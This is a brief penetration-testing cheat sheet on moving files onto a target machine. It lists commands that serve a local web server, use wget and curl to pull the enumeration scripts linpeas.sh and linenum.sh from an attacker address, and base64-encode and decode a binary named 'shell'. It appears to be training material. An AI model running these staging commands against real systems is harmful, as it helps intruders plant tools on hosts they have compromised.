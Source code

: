 
|   |   |
|---|---|
|**Transferring Files**||
|`python3 -m http.server 8000`|Start a local webserver|
|`wget http://10.10.14.1:8000/linpeas.sh`|Download a file on the remote server from our local machine|
|`curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`|Download a file on the remote server from our local machine|
|`scp linenum.sh user@remotehost:/tmp/linenum.sh`|Transfer a file to the remote server with `scp` (requires SSH access)|
|`base64 shell -w 0`|Convert a file to `base64`|
|`echo f0VMR...SNIO...InmDwU \| base64 -d > shell`|Convert a file from `base64` back to its orig|
|`md5sum shell`|Check the file's `md5sum` to ensure it converted correctly|
